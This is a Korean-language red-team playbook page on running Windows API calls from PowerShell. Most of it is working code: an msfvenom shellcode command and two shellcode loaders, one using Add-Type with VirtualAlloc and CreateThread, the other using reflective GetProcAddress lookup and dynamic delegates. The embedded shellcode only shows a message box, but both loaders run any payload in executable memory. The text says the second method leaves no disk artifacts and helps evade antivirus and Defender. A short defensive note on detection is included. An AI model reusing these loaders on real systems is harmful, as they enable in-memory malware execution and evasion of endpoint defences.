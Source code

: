 # 윈도우 API 실행

파워쉘에서는 윈도우 API를 실행할 수 있는 총 세 가지 방법이 있다.&#x20;

* Add-Type&#x20;
* .NET 어셈블리가 사용하는 윈도우 API를 찾아 실행하는 방법&#x20;
* 윈도우 API의 메모리상 주소를 알아내고, 함수 포인터를 만든 뒤, 다이내믹 Assembly, Module, Type, Method 과 Delegate를 이용해 이 함수 포인터로 윈도우 API를 실행하는 방법&#x20;

이 페이지에서는 1번과 3번에 대해서 알아본다.&#x20;

### Add-Type&#x20;

Add-Type 은 마이크로소프트사에서 공식적으로 지원하는 파워쉘에서 윈도우 API를 사용하는 방법 중 하나다. 더 정확하게 말하자면 파워쉘에서 C# 클래스를 작성한 뒤 메모리상에서 컴파일 하고 실행하는 함수 중 하나다.&#x20;

먼저 PoC 쉘코드로 사용할 쉘코드를 msfvenom을 이용해 제작한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f ps1
```

다음은 파워쉘에서 윈도우 API를 이용해 MessageBox 쉘코드를 실행하는 PoC다.&#x20;

<details>

<summary>Invoke-Addtype.ps1</summary>

```powershell
$csharpCode = @"

using System;
using System.Runtime.InteropServices;

public class winAPIClass { 

    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet = CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $csharpCode

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0

# Page commit | reserve, RWX 
$pAlloc = [winAPIClass]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [winAPIClass]::CreateThread(0,0,$pAlloc,0,0,0)        
```

</details>

![](<../../.gitbook/assets/image (11).png>)

#### 대응 방안&#x20;

Add-Type이 실행될 때 C# 코드가 메모리상에서 컴파일 된다고 위에서 얘기했었다. 더 자세하게 얘기하자면 `csc.exe` 를 이용해 메모리상에서 C# 코드를 컴파일 하지만, 그 와중에 임시 파일을 디스크위에 작성한다.&#x20;

![](<../../.gitbook/assets/image (2).png>)

![](<../../.gitbook/assets/image (6).png>)

2022년도 기준 `Add-Type` 를 이용한 파워쉘에서의 C# 코드 및 윈도우 API 실행은 유명한 TTP라 왠만한 AV/EDR 솔루션들 및 윈도우 디펜더는 이를 기본적으로 막는다.&#x20;

### Dynamic Method&#x20;

다음 코드들은 다음 두 개의 레퍼런스 - [Matt Graeber](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/), [mez0](https://mez0.cc/posts/cobaltstrike-powershell-exec/), [DepthSecurity](https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs) 라는 분들의 코드 참고했다. 먼저 `LookUpFunction` 이라는 함수로 현 .NET AppDomain에 있는 어셈블리들 중 `System.dll` 닷넷 어셈블리를 찾고, 그 중 `UnsafeNativeMethod` 를 찾는다. 그 뒤, `GetMethods()` 함수를 통해 닷넷 어셈블리에서 `GetProcAddress` 와 `GetModuleHandle` 윈도우API를 찾는다. 그 뒤, 이들을 이용해 파라미터로 받아온 ModuleName과 FunctionName을 찾는다.&#x20;

```powershell
# Unmanaged DLL 이름과 winAPI함수 이름을 입력값으로 받고, 함수 포인터를 반환함. 
function LookUpFunc {
    Param($module, $funcName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}
```

&#x20;결국 `$fPointer = LookUpfunction Kernel32.dll VirtualAlloc` 과 같은 파워쉘 코드를 이용하면 `VirtualAlloc` 의 위치를 가르키는 함수 포인터를 생성할 수 있게 된다.&#x20;

함수 포인터가 있다고 해서 그것을 무작정 사용할 수는 없다. 함수 포인터가 가르키는 메모리는 어떻게 읽어야하는가? 몇개의 argument 가 있고, 어떤 타입의 argument 들이 있는가? 리턴하는 데이터 타입은? 에 대한 설명을 기반으로 함수 포인터를 실행해야 하는데, C#과 파워쉘에서는 이를 `Delegate` 을 통해서 해결한다.&#x20;

다음은 파워쉘에서 Delegate 을 만들고 그것을 기반으로 위에서 받아온 함수 포인터를 실행하는 코드다. 다이내믹 어셈블리, 모듈, 타입, 프로토타입, 매써드 등을 만든 뒤 DelegateType을 반환한다.&#x20;

```powershell
# 함수 시그니쳐와 반환값을 입력값으로 받고, DelegateType을 반환함. 
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}
```

이 `getDelegateType` 함수는 다음과 같이 쓴다.&#x20;

```powershell
$pVirtualAlloc = LookUpFunc "kernel32.dll" "VirtualAlloc" 
$dtVirtualAlloc = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($pVitualAlloc, $dtVirtualAlloc)
```

이를 기반으로 위 `Add-Type` 예시에서 만들었던 메시지 박스 쉘코드를 실행하는 파워쉘 페이로드를 만들면 다음과 같다.&#x20;

```powershell
# All credit to https://mez0.cc/posts/cobaltstrike-powershell-exec/
function LookUpFunc {
    Param($module, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}

# All credit to https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0
$pAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $pAlloc, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

위 Dynamic Method 방법의 경우 C# 이 컴파일이 되는 것이 아니기 때문에 디스크상의 임시 파일이 쓰여질 일도 없다. 따라서 기본적인 AV나 디펜더를 우회하는데 좀 더 유리하다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-2/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/" %}

{% embed url="https://mez0.cc/posts/cobaltstrike-powershell-exec/" %}

{% embed url="https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs" %}
